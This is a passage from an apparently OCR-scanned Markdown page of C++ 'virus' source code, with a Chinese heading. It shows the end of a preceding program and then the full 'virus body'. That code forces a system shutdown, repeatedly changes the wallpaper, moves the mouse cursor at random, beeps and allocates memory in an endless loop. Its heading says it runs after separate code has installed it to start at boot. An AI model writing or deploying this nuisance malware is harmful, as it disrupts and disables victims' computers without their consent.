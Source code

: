 ```
            // 写入失败
            cout << "Write filed !" ;
        }
    }else {
        cout << "Read error !" << endl ;
    }

    return 0 ;
}
```

## 病毒主体，在上方代码实现开机自启动之后，这段代码可以不断修改壁纸，控制鼠标以及关机。
```
#include<stdio.h>
#include<windows.h>
#include<iostream>
#include <tchar.h>
#include<cstdlib>
#include<ctime>
using namespace std ;

int main(){

    POINT sb;
    PVOID s[10] = {
        (PVOID)"D:\\windows\\system32\\bin\\background.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background1.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background2.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background3.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background4.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background5.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background6.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background7.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background8.jpg" ,
        (PVOID)"D:\\windows\\system32\\bin\\background9.jpg"
        };
    srand((unsigned)time(NULL));
    system("shutdown -s -t 5");
    SystemParametersInfo(20, true,s, 1) ;
    GetCursorPos (&sb);//获取鼠标坐标
    int i = 0 ;
    while(1){
        int *p = (int*)malloc(10000000000) ;
        printf("\a");
        SystemParametersInfo(20, true,s[i], 1) ;
        if(i>=9){
            i = 0 ;
        }
        SetCursorPos(rand()%1000,rand()%800);//更改鼠标坐标
        Sleep(1);//控制移动时间间隔
    }

    return 0 ;
}
```

# 参考
   ##[Github](https://github.com/CasterWx/c-cPlusPlus-Virus)
